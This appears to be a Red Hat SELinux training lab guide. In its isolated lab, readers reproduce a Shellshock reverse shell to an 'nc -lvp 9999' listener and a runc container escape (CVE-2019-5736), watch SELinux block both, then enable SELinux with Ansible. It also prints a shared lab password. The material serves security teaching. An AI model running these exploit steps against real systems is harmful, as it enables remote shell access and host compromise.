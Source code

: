 
= Lab 2: Security Enhanced Linux

== Goal of Lab
The goal of this lab is to use Security Enhanced Linux (SELinux) to help mitigate against attacks due to privilege escalation vulnerabilities in a three part exercise.

* In the first part of this lab exercise, you will become a hacker and try to execute a real vulnerability on a given Red Hat Enterprise Linux 7 system and explore how SELinux can help to protect this system.
* In the second part of this lab exercise, you will turn SELinux on for an environment of web servers in an automated fashion using Ansible.
* In the last part of this lab exercise, you will configure SELinux according to a U.S. Department of Defense STIG security control policy rule.

== Introduction
Security Enhanced Linux (SELinux) can help to proactively mitigate systems from the consequences of exploits during the window of vulnerability. Specifically, this is the time window before a security fix is released. This protection is done by defining SELinux policies on your systems.

=== SELinux policy
SELinux *isolates* all processes running on the system to *mitigate* attacks which take advantage of privilege escalation vulnerabilities. A privilege escalation vulnerability means that a process gains more access rights than it should have. To prevent this, SELinux enforces Mandatory Access Control (MAC) mechanism over all processes. It labels every process, file, or directory according to rules specified in a security policy known as the SELinux policy. The SELinux policy also specifies how processes interact with each other and how they can access files and directories. SELinux denies every action that it is not explicitly allowed by the SELinux policy.

In one of the below exercises, we'll see an example where using this process isolation can help protect us from a privilege escalation vulnerability of an exploit.

=== Introduction to the Shellshock vulnerability and SELinux

The Shellshock vulnerability is a bash exploit and the root issue is that you could put any command after the _env_ variable in a command , which allows an attacker to execute any arbitrary code. The following pictures shows an example of the bash exploit on an apache server.

image:images/lab2-shellshock-1.png[]

If you had a _cgi_ script accessing user data or the internal network, then this script could compromise either the internal network or user data on your system.

_So what can SELinux do to mitigate against the Shellshock bash exploit?_

The important fact to understand is that *SELinux does not block the exploit* but it will *prevent escalation of confined domains*. These confined domains are defined by the SELinux policy installed on a system. Because *SELinux controls on their types (SELinux labels)*, the process is doing what it was designed to do and can not access what is not allowed in the SELinux policy.

The picture below shows the situation described above with SELinux enabled and in enforcing mode.

image:images/lab2-shellshock-2.png[]

If an attacker executed the potential _cgi_ script mentioned earlier, the attacker would not be able to access either user data or certain parts of the internal network as it is defined in the SELinux policy.

How is this done in reality? How do types, which ensure described process separation, look in reality? The below exercises will help answer these questions.

== Lab 2.1 Exploiting Red Hat Enterprise Linux 7 with the Shellshock vulnerability

=== Goal of Lab 2.1
In this first exercise, let's become a hacker and try to exploit Red Hat Enterprise Linux 7 with the Shellshock vulnerability.

As an administrator of Red Hat Enterprise Linux servers, I want to enable SELinux for the web servers in my environment to mitigate against damages caused by zero day vulnerabilities.

This lab exercise is split into three steps:

. Exploiting a RHEL system with SELinux in Permissive mode
. Exploiting a RHEL system with SELinux in Enforcing mode
. Analyzing SELinux denials

=== Lab 2.1.1 Logging into the *selinux1.example.com* system and navigating to the selinux scripts directory

The exploit will be executed from the _selinux1.example.com_ system.

. If not already there, log into to the bastion host as *lab-user* from your desktop system *replacing GUID with your lab's GUID*. Use the password *r3dh4t1!*
+
[source]
[localhost ~]$ ssh lab-user@workstation-GUID.rhpds.opentlc.com

. If not already root, become *root* and then log into the _selinux1.example.com_ system.
+
[source]
[lab-user@workstation-GUID ~]# ssh root@selinux1.example.com

. Move to directory /root/selinux_sctipts/ where are all the scripts needed for provide attack.

    [root@selinux1 ~]# cd /root/selinux_scripts
+
NOTE: If you'd like copies of these selinux_scripts, they can also be found in this github link https://github.com/RedHatDemos/SecurityDemos/tree/master/RHELSecurityLabSummit/selinux_scripts[here^].

. Repeat steps #1-3 above on a second terminal (this terminal window will also be connected to *selinux1.example.com*)

=== Lab 2.1.2 Exploiting the system with SELinux in Permissive mode

==== Goal of Lab 2.1.2
In this part of the lab exercise, we are going to utilize the two open open terminals from the previous exercise.
(both selinux1.example.com). The first terminal window will be for listening on 9999 tcp port and the second terminal window will be for executing the exploit script.

==== Introduction
Let's see this visually. Take a look at the image below. This image describes the flow of how the exploit that will be executed. On the left side is the victim server (selinux4 system). From the attacker machine (which is the selinux1 system), a http request will be sent and part of this httpd request will be to open the shell to the attacker machine listening on tcp port 9999.

image:images/lab2-shellshock-flow.png[]


==== Lab 2.1.2 exercise steps
Now let's go through the steps we just described above.

. Go to your two opened terminals that are connected to the *selinux1.example.com* systems and pointed to the /root/selinux_scripts directory.

. Note that the victim server, _selinux4_, has SELinux in permissive mode by default. It is running the Apache service running with an older version of bash. Everything is ready to run the exploit.

. Based on flow of the ShellShock attack we learned about earlier, it's necessary to start listening on tcp port 9999 on one of the selinux1 terminals you have opened. We'll be using Ncat, which is a feature-packed networking utility which reads and writes data across networks from the command line.

    [root@selinux1 selinux_scripts]# nc -lvp 9999
    Ncat: Version 7.50 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999

. Now, from the other *selinux1* terminal, let's run the exploit:

    [root@selinux1 selinux_scripts]# ./shellshock_exploit.sh

. Now, on the terminal where nc command was executed, a bash prompt should now appear.

    [root@selinux1 selinux_scripts]# nc -lvp 9999
    Ncat: Version 7.50 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.0.24.
    Ncat: Connection from 192.168.0.24:38668.
    bash: no job control in this shell
    bash-4.2$

. For testing purpose, few commands could be executed on the victim system (_selinux4_). Type *id* and then type *uname -a*. Then type *exit*.

    bash-4.2$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_sys_script_t:s0
    bash-4.2$ uname -a
    uname -a
    Linux selinux4.example.com 3.10.0-418.el7.x86_64 #1 SMP Thu May 26 20:35:02 EDT 2016 x86_64 x86_64 x86_64 GNU/Linux
    bash-4.2$ exit

* The _id_ command prints real and effecitve user and group IDs, where we could see that user and group is apache. This is because cgi scripts are started as the apache owner.
* The _uname_ command prints system information. You can see the hostname *selinux4.example.com* being printed, which indicates that this is the victim system. These commands proves that the attack was successful.

=== Lab 2.1.3 Set SELinux to enforcing mode

The victim server (_selinux4_ system) has SELinux in permissive mode. Now, let's switch SELinux to enforcing and repeat the attack.

Connect to _selinux4_ and switch to Enforcing mode

    [root@selinux1 selinux_scripts]# ssh root@selinux4
    [root@selinux4 ~]# setenforce 1
    [root@selinux4 ~]# exit

=== Lab 2.1.4 Exploiting system with SELinux in Enforcing mode

Now, let's repeat the attack but this time with SELinux in Enforcing mode on the victim server (_selinux4_ ).

Based on flow of the _ShellShock_ attack, let's again start listening on tcp port 9999 on one of the terminals for the _selinux1_ system.

    [root@selinux1 selinux_scripts]# nc -lvp 9999
    Ncat: Version 7.50 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999

_Ncat_ is a feature-packed networking utility which reads and writes data across networks from the command line.

Now, from another terminal for the selinux1 system, let's run the exploit again.

    [root@selinux1 selinux_scripts]# ./shellshock_exploit.sh

As you can see, this time around, there is no bash prompt on the terminal where you executed the _nc_ command. This is because SELinux blocked this access. SELinux did its job!

=== Lab 2.1.5 Analyzing the SELinux denial

Let's analyze what happened and why SELinux blocked the ShellShock exploit.

Connect to the selinux4 system from the selinux1 machine

    [root@selinux1 selinux_scripts]# ssh root@selinux4
    [root@selinux4 ~]# ausearch -m AVC -ts today | grep name_connect
    type=AVC msg=audit(1524909646.681:86): avc:  denied  { name_connect } for  pid=2091 comm="bashbug.sh" dest=9999 scontext=system_u:system_r:httpd_sys_script_t:s0 tcontext=system_u:object_r:jboss_management_port_t:s0 tclass=tcp_socket

This is the avc record from the Audit daemon. This output is saying that the cgi script, called bashbug.sh , labeled as httpd_sys_script_t tried to connect to tcp port 9999 labeled as jboss_management_port_t. Fortunately, there is no allow rules for this access. As a result, the access was denied by the kernel and SELinux mitigated this attack.

== Lab 2.2 Exploiting Fedora 27 with the Runcescape vulnerability

=== Goal of Lab 2.2
In this second exercise, let's become a hacker and try to exploit Fedora 27 with the Runcescape vulnerability.

Old release of Fedora27 was used for the purpose, because docker is fixed in Red Hat Enterprise Linux 7. Fedora27 is in end of life state, which means no updates are provided, so docker there is still vulnerable.

As an administrator of Red Hat Enterprise Linux servers, I want to enable SELinux for the containers in my environment to mitigate against damages caused by zero day vulnerabilities.

This lab exercise is split into three steps:

. Exploiting a Fedora system with SELinux in Enforcing mode
. Exploiting a Fedora system with SELinux in Permissive mode
. Analyzing SELinux denials

=== Lab 2.2.1 Logging into the *selinux6.example.com* system and navigating to the selinux scripts directory

The exploit will be executed from the _selinux6.example.com_ system.

. If not already there, log into to the bastion host as *lab-user* from your desktop system *replacing GUID with your lab's GUID*. Use the password *r3dh4t1!*
[source]
[localhost ~]$ ssh lab-user@workstation-GUID.rhpds.opentlc.com

. If not already root, become *root* and then log into the _selinux6.example.com_ system.
[source]
[lab-user@workstation-GUID ~]# ssh root@selinux6.example.com

. Move to directory /root/selinux_sctipts/ where are all the scripts needed for provide attack.
[source]
[root@selinux6 ~]# cd /root/selinux_scripts


NOTE: If you'd like copies of these selinux_scripts, they can also be found in this github link https://github.com/RedHatDemos/SecurityDemos/tree/master/RHELSecurityLabSummit/selinux_scripts[here^].

==== Introduction
CVE-2019-5736 runc escape is the latest vulnerability in containers world. It's privilege escalation vulnerability with arbitrary code execution as root, when malicious process inside container will escape from container namespace and will execute arbitary code on host system. This is really dangerous because in any container could be malicious process and when system adminitrator will start the container, they will add root access to the whole system.
Fortunately, SELinux technology separating containers between each other and also between the container and host system and blocking this exploit.

NOTE: If you'd like read more about this exploit, informations can  be found in this link https://access.redhat.com/security/vulnerabilities/runcescape[here^].

==== Lab 2.2.2 exercise steps
Now, let's follow these steps to reproduce the attack.

. First step is to check if the host system is running SELinux in *enforcing* state.
[source]
[root@selinux6 selinux_scripts]# sestatus
SELinux status:                 enabled
SELinuxfs mount:                /sys/fs/selinux
SELinux root directory:         /etc/selinux
Loaded policy name:             targeted
Current mode:                   enforcing
Mode from config file:          enforcing
Policy MLS status:              enabled
Policy deny_unknown status:     allowed
Memory protection checking:     actual (secure)
Max kernel policy version:      31

. Second step is prepare the environment, for this purpose there is *runcescape.sh* shell script prepared for you. The script will install and start docker container engine. This engine also using vulnerable runc bundled inside. Then regular container with the latest ubuntu distribution will be downloaded. Next step is to upload malicious program to container and prepare the exploit. Let's execute the script:
[source]
[root@selinux6 selinux_scripts]# ./runcescape.sh
[+] Installing docker
[+] Starting docker
[+] Downloading container
[+] Uploading exploit
[+] Executing docker

. Now, container with malicious program is ready, and waiting for system adminitrator who will execute the program inside the container. In this case, malicious program is renamed to _bash_ and replaced with the real _/bin/bash_. So, Let's execute the it inside the container:
[source]
[root@selinux6 selinux_scripts]# docker exec -it pwnme /bin/bash
[+] bad_libseccomp.so booted.
[+] opened ro /proc/self/exe <3>.
[+] constructed fdpath </proc/self/fd/3>
[+] bad_init is ready -- see </tmp/bad_init_log> for logs.
[*] dying to allow /proc/self/exe to be unused...

. Because of type of the attack, sometimes it's nescessary to execute the last command multiple times, so to make sure the attack is sucessful execute the latest command _docker exec -it pwnme /bin/bash_ multiple times.

=== Lab 2.2.3 Analyzing the SELinux denial

Let's analyze what happened and why SELinux blocked the runc escape exploit.

Run _ausearch_ command to see SELinuix denial:
[source]
[root@selinux6 selinux_scripts]# ausearch -m AVC -ts today | grep container_runtime_exec_t
type=AVC msg=audit(1554464510.001:479): avc:  denied  { write } for  pid=5190 comm="bad_init" name="docker-runc-current" dev="dm-0" ino=9162730 scontext=system_u:system_r:container_t:s0:c915,c946 tcontext=system_u:object_r:container_runtime_exec_t:s0 tclass=file permissive=0

This is the avc record from the Audit daemon. This output is saying that malicious process inside the container *bad_init* labeled as *container_t* is trying to modify *docker-runc-current* labeled as *container_runtime_exec_t* on host system. This is clearly not good and should be blocked, what SELinux did.

=== Lab 2.2.4 Set SELinux to permissive mode

The _selinux6_ system has SELinux in enforcing mode. Now, let's switch SELinux to permissive and repeat the attack.
[source]
[root@selinux6 selinux_scripts]# setenforce 0
[root@selinux6 selinux_scripts]# getenforce
Permissive

==== Lab 2.2.5 exercise steps in permissive mode
Now, let's follow these again steps to reproduce the attack in permissive mode.

. First step is prepare new container with the exploit
[source]
[root@selinux6 selinux_scripts]# ./runcescape.sh
[+] Installing docker
[+] Starting docker
[+] Downloading container
[+] Uploading exploit
[+] Executing docker

. Now, container with malicious program is ready, and waiting for system adminitrator who will execute the program inside the container. In this case, malicious program is renamed to _bash_ and replaced with the real _/bin/bash_. So, Let's repeate attack, now it will be sucessful because SELinux is in permissive mode.
[source]
[root@selinux6 selinux_scripts]# docker exec -it pwnme /bin/bash
[+] bad_libseccomp.so booted.
[+] opened ro /proc/self/exe <3>.
[+] constructed fdpath </proc/self/fd/3>
[+] bad_init is ready -- see </tmp/bad_init_log> for logs.
[*] dying to allow /proc/self/exe to be unused...

. Becuase of type of the attack, sometimes it's nescessary to execute the last command multiple times, so to make sure the attack is sucessful execute the latest command _docker exec -it pwnme /bin/bash_ multiple until you'll see this output:
[source]
[root@selinux6 selinux_scripts]# docker exec -it pwnme /bin/bash
rpc error: code = 2 desc = containerd: container not started

This is prove that exploit was sucessful. Output of command _ausearch -m AVC -ts today_ will again show same SELinux denial, like in Enforcing but becasue we're in permissive also payload of exploit is executed. In our case, payload creates file in root filesystem with name *HACKED*. Let's prove it:
[source]
[root@selinux6 selinux_scripts]# cd /
[root@selinux6 /]# ls
bin   dev  HACKED  lib    media  opt   root  sbin  sys  usr
boot  etc  home    lib64  mnt    proc  run   srv   tmp  var

File with name *HACKED* is there. Of course, this is just an example, instead of creating file in /, there can be arbitary code execution.

== Lab 2.3 Enabling SELinux via Ansible

=== Goal of Lab 2.3

SELinux brings additional security for your environment and very often needs to be further modified to reflect the current environment configuration. For these cases, SELinux can be switched to Permissive mode as a debugging mode to not block basic functionality of systems. With this mode, we can run for a time period to debug all possible SELinux AVC denials, which makes turning SELinux on easier to manage. There are many ways to view or modify the installed SELinux policy.

In this lab, we used the SELinux Ansible role to distribute all needed changes in the SELinux policy to make our Apache configuration working with SELinux in Enforcing mode.

Specifically, in this lab exercise, you will enable SELinux in your environment, which consists of an Apache server using both custom and standard paths for web files . You will enable SELinux so that your Apache server is fully confined by SELinux. Specifically, you will use the SELinux system roles feature as an Ansible role to configure SELinux in an automated fashion.

=== Introduction and Lab Background Info

In this lab exercise, you have an environment with Apache web servers,  where both default and custom paths for Apache web files are used. Specifically:

 * /var/www/html (default)
 * /var/www_new/html (custom)

These web files are accessible using tcp/80 and tcp/7070 ports on each web server.

 * selinux2.example.com:80 (default)
 * selinux2.example.com:7070 (custom)

 * selinux3.example.com:80 (default)
 * selinux3.example.com:7070 (custom)

 * selinux5.example.com:80 (default)
 * selinux5.example.com:7070 (custom)

SELinux is disabled for all web servers by default. In a fully automated fashion, you will turn SELinux on for all web servers without breaking any functionality using the SELinux system roles feature as an Ansible role.

The SELinux part of the lab environment consists of four machines:

 * selinux1, selinux1.example.com (RHEL-8 admin host)
 * selinux2, selinux2.example.com (RHEL-8 host)
 * selinux3, selinux3.example.com (RHEL-6 host)
 * selinux5, selinux5.example.com (RHEL-7 host)

The first _selinux1.example.com_ host will be used as an admin interface to setup the other two hosts where we will complete all our configuration steps.

===  Pre-Configured Set Up Steps (Already done for you)

*Important*: All steps in this _Pre-Configured Set Up Steps_ section have been already performed in the lab environment for you. They are mentioned from an informative purpose and they ONLY need to executed if you use the revert script for this lab

==== Viewing basic environment pre-configuration information

Let's take a look at what has been pre-configured for you in this part of the lab exercise.

. If not already there, log into to the workstation bastion host as *lab-user* from your desktop system *replacing GUID with your lab's GUID*. Use the password *r3dh4t1!*
+
[source]
[localhost ~]$ ssh lab-user@workstation-GUID.rhpds.opentlc.com

. Log into the _selinux1.example.com_ system as *root*.
+
[source]
[lab-user@workstation-GUID ~]# ssh root@selinux1.example.com

. Look at the DNS records on the _selinux1_ server.
[source]
[root@selinux1 ~]# cat /etc/hosts
127.0.0.1   localhost localhost.localdomain localhost4 localhost4.localdomain4
::1         localhost localhost.localdomain localhost6 localhost6.localdomain6
192.168.0.20 selinux2
192.168.0.21 selinux3
192.168.0.6 selinux5

.  The __ansible__ package has been installed on the _selinux1_ host.
[source]
[root@selinux1 ~]# pip3 install ansible

. Enter the _selinux_scripts_ working directory on the _selinux1_ host.
[source]
[root@selinux1 ~]# cd /root/selinux_scripts

. Look at the created inventory file for our Ansible usage.
[source]
[root@selinux1 selinux_scripts]# cat inventory
selinux2 ansible_python_interpreter=/usr/libexec/platform-python
selinux3
selinux5

==== Pre-Configuration of Apache web servers with SELinux disabled

The _apache_ web servers were set up using the _setup-webserver.yml_ playbook and this playbook was executed on the _selinux2_,  _selinux3_ and _selinux5_ hosts.  SELinux was also turned off.

All ansible commands below were executed from _selinux1.example.com_.

Test whether all servers are available via the _ansible_ command.

. If not already there, log into to the workstation bastion host as *lab-user* from your desktop system *replacing GUID with your lab's GUID*. Use the password *r3dh4t1!*
+
[source]
[localhost ~]$ ssh lab-user@workstation-GUID.rhpds.opentlc.com

. If not already root, become *root* and then log into the _selinux1.example.com_ system.
+
[source]
[lab-user@workstation-GUID ~]# ssh root@selinux1.example.com

. Enter the _selinux_scripts_ working directory on the _selinux1_ host.
[source]
[root@selinux1 ~]# cd /root/selinux_scripts

. Now let's test which servers are accessible.
+
[source]
[root@selinux1 selinux_scripts]# ansible all -i inventory -m ping -u root

. An Ansible script will pass all listed servers in the _inventory_ file and will send a test to see if they are accessible. All servers should return a pong response.

    selinux3 | SUCCESS => {
        "changed": false,
        "ping": "pong"
    }
    selinux5 | SUCCESS => {
        "changed": false,
        "ping": "pong"
    }
    selinux2 | SUCCESS => {
        "changed": false,
        "ping": "pong"
    }

. Apache web servers were configured on given servers via the _setup_webserver.yml_ playbook.

	[root@selinux1 selinux_scripts]# ansible-playbook -i inventory -u root setup-webserver.yml

The following actions were performed for all hosts mentioned in the _inventory_ file:

 * SELinux was disabled.
 * Apache webservers were
  ** installed
  ** configured to listen on _tcp/80_ and _tcp/7070_ ports via the _linux-sytem-roles/firewall_ ansible role.
  ** configured to use two root directories for web files,

	/var/www/html (default)
	/var/www_new/html (custom)

  ** were rebooted,

At the end we installed the _setools-console_ package containing SELinux policy query tools which will be used for SELinux Troubleshooting.

	[root@selinux1 selinux_scripts]# ssh root@selinux2
	[root@selinux2 ~]# yum install setools-console
	[root@selinux2 ~]# exit

	[root@selinux1 selinux_scripts]# ssh root@selinux3
	[root@selinux3 ~]# yum install setools-console
	[root@selinux3 ~]# exit

	[root@selinux1 selinux_scripts]# ssh root@selinux5
	[root@selinux5 ~]# yum install setools-console
	[root@selinux5 ~]# exit

=== Lab 2.3.1 Testing the pre-configured setup
In this section, we are going to test our pre-configured setup steps from before.

	[root@selinux1 selinux_scripts]# hostname
	selinux1.example.com

	[root@selinux1 selinux_scripts]# cd /root/selinux_scripts

	[root@selinux1 selinux_scripts]# curl selinux2
	<h1>Default Document Root</h1>

	[root@selinux1 selinux_scripts]# curl selinux2:7070
	<h1>Custom Document Root</h1>

	[root@selinux1 selinux_scripts]# curl selinux3
	<h1>Default Document Root</h1>

	[root@selinux1 selinux_scripts]# curl selinux3:7070
	<h1>Custom Document Root</h1>

    [root@selinux1 selinux_scripts]# curl selinux5
    <h1>Default Document Root</h1>

    [root@selinux1 selinux_scripts]# curl selinux5:7070
    <h1>Custom Document Root</h1>

	[root@selinux1 selinux_scripts]# ssh root@selinux2
	[root@selinux2 ~]# getenforce
	Disabled
	[root@selinux2 ~]# exit

	[root@selinux1 selinux_scripts]# ssh root@selinux3
	[root@selinux3 ~]# getenforce
	Disabled
	[root@selinux3 ~]# exit

	[root@selinux1 selinux_scripts]# ssh root@selinux5
	[root@selinux5 ~]# getenforce
	Disabled
	[root@selinux5 ~]# exit

=== Lab 2.3.2 Turning SELinux On

. Setup SELinux to _permissive_ mode and relabel the whole filesystem.

	[root@selinux1 selinux_scripts]# ansible-playbook -i inventory -u root enable-selinux.yml


. SELinux is switched to _permissive_ mode using the _enable-selinux_ playbook. It means that SELinux policy is enabled but is not enforced. We can use the _getenforce_ and _sestatus_ utility to view the current SELinux mode for our server(s).

    [root@selinux1 selinux_scripts]# ssh root@selinux2
    [root@selinux2 ~]# getenforce
    [root@selinux2 ~]# sestatus
    [root@selinux2 ~]# exit

. SELinux does not deny access, but denials are logged for actions that would have been denied if running in enforcing mode. In order to show logged denials for certain actions we need to run the _curl_ command. AVC denial(s) will be generated and we can view it via the _ausearch_ command below.

	[root@selinux1 selinux_scripts]# curl selinux2:7070
	[root@selinux1 selinux_scripts]# curl selinux3:7070
	[root@selinux1 selinux_scripts]# curl selinux5:7070

	[root@selinux1 selinux_scripts]# ssh root@selinux2

	[root@selinux2 ~]# ausearch -m AVC -su httpd_t -ts recent

	avc:  denied  { name_bind } for  pid=1830 comm="httpd" src=7070 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:unreserved_port_t:s0 tclass=tcp_socket
	avc:  denied  { read } for  pid=1831 comm="httpd" name="index.html" dev="vda3" ino=8511801 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:var_t:s0 tclass=file
    avc:  denied  { map } for  pid=778 comm="httpd" path="/var/www_new/html/index.html" dev="dm-0" ino=8751871 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:var_t:s0 tclass=file permissive=1
    avc:  denied  { open } for  pid=778 comm="httpd" path="/var/www_new/html/index.html" dev="dm-0" ino=8751871 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:var_t:s0 tclass=file permissive=1
    avc:  denied  { getattr } for  pid=778 comm="httpd" path="/var/www_new/html/index.html" dev="dm-0" ino=8751871 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:var_t:s0 tclass=file permissive=1

	[root@selinux2 ~]# exit

=== Lab 2.3.3 SELinux Troubleshooting
In the previous step, we turned SELinux on and got AVC denials. Denial messages are logged when SELinux denies access. Let's find out why we got these AVC denials.

SELinux Troubleshooting can be performed on both the _selinux2_ and _selinux3_ hosts. We will use the _selinux2_ host for the following examples.

. Log into the _selinux2_ host.

	[root@selinux1 selinux_scripts]# ssh root@selinux2

==== Lab 2.3.3.1 SELinux Port

. SELinux _httpd_t_ process domain used for Apache web servers is not able to bind to _tcp/7070_ port by default. There is no default rule for this access in the SELinux policy on the RHEL-7 _selinux5_ and RHEL-8 _selinux2_ hosts.

  [root@selinux2 ~]# sesearch -A -s httpd_t -t unreserved_port_t -c tcp_socket -p name_bind | grep httpd_t
  [root@selinux2 ~]# exit

  [root@selinux5 ~]# sesearch -A -s httpd_t -t unreserved_port_t -c tcp_socket -p name_bind | grep httpd_t
  [root@selinux5 ~]# exit

. Use _port_ instead of _unreserved_port_t_ for this query on the _selinux3_ host.

  [root@selinux1] ssh selinux3
  [root@selinux3 ~]# sesearch -A -s httpd_t -t port_t -c tcp_socket -p name_bind -C | grep httpd_t
  [root@selinux3 ~]# exit

. Compare to that Apache webservers can bind to other ports and these SELinux port types can be assigned to our selected custom port (_tcp/7070_).

  [root@selinux1] ssh selinux2
  [root@selinux2 ~]# sesearch -A -s httpd_t -c tcp_socket -p name_bind | grep httpd_t

==== Lab 2.3.3.2 SELinux File context

. SELinux _httpd_t_ process domain used for Apache webservers is not able to read a general _/var_ content with SELinux _var_t_ file type. There is no rule for this access in the SELinux policy.

	[root@selinux2 ~]# sesearch -A -s httpd_t -t var_t -c file -p read

. Compare to that Apache webservers can read a specific content with a specific SELinux file type.

	[root@selinux2 ~]# sesearch -A -s httpd_t -c file -p read

. We can use the matchpathcon utility to decide what should be a proper context for our alternative location for web files.

	[root@selinux2 ~]# matchpathcon /var/www/html
	/var/www/html    system_u:object_r:httpd_sys_content_t:s0
	[root@selinux2 ~]# exit

=== Lab 2.3.4 Viewing and Executing the SELinux _setup-selinux.yml_ ansible playbook

We will execute an SELinux Ansible playbook which will switch SELinux to Enforcing mode and apply all needed changes for our web servers' configuration.

The playbook uses the linux-system-roles/selinux Ansible role.

Let's take a quick look at this Ansible playbook.

. Make sure you are on the *selinux1* system and navigate to the /root/selinux_scripts directory.

	[root@selinux1 selinux_scripts]# hostname
	selinux1.example.com

	[root@selinux1 selinux_scripts]# pwd
	/root/selinux_scripts

. Open the *setup-selinux.yml* Ansible playbook.

  [root@selinux1 selinux_scripts]# cat setup-selinux.yml
----
  - hosts: all
  become: true
  become_user: root
  vars:
    SELinux_type: targeted
    SELinux_mode: enforcing
    SELinux_change_running: 1
    SELinux_file_contexts:
       - { target: '/var/www_new(/.*)?', setype: 'httpd_sys_content_t', ftype: 'a' }
    SELinux_restore_dirs:
      - /var/www/html
      - /var/www_new/
    SELinux_ports:
      - { ports: '7070', proto: 'tcp', setype: 'http_port_t', state: 'present' }
  roles:
    - linux-system-roles.selinux
----

. Let's take a closer look at the _setup_selinux.yml_ Ansible playbook.

* In the _vars_ section, we are switching SELinux to Enforcing mode.

    SELinux_type: targeted
    SELinux_mode: enforcing
    SELinux_change_running: 1

